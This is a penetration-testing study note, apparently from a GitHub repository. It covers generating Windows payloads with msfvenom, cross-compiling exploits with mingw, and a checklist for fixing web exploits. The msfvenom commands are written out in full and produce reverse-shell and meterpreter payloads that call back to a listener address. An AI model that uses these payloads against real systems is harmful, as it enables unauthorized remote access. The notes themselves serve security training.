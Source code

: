 ```yaml
---
title: Exploitation
---
```

# Payload Generation
## MSFVENOM
- We can create payloads using `msfvenom`
```zsh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.77 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.197 LPORT=9001 EXITFUNC=thread –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c

msfvenom -p windows/x64/vncinject/bind_ipv6_tcp_uuid q LHOST=192.168.45.197 LPORT=9001 -f python -b "\x00\x20" -v shellcode
```
- Specify payload with `-p
- Specify bad characters with `-b`
- Specify output format with `-f`
- Specify variable name of output with `-v`
# Compiling exploits
## Cross Compiling to Windows
- We can use `minwg` to cross compile code for Windows platforms
```zsh
i686-w64-mingw32-gcc code.c -o exploit.exe
```
- The option `-l` to link local libraries. For example the `ws2_32` winsock library can be linked with
```zsh
i686-w64-mingw32-gcc code.c -o exploit.exe -lws2_32
```
# Fixing Exploits
## Fixing Web Exploits
- When fixing web exploits, a set of questions has to be asked
	-  Does it initiate an HTTP or HTTPS connection?
	- Does it access a specific web application path or route?
	- Does the exploit leverage a pre-authentication vulnerability?
	- If not, how does the exploit authenticate to the web application?
	- How are the GET or POST requests crafted to trigger and exploit the vulnerability? Is there any HTTP method involved?
	- Does it rely on default application settings (such as the web path of the application) that may have been changed after installation?
	- Will oddities such as self-signed certificates disrupt the exploit?
	- Additional protections like `.htacces` or a WAF present?
### No certificate validation
- If the exploit is written in python we can add `verify=false` to the request method
```python
response  = requests.post(url, data=data, allow_redirects=False, verify=False)
```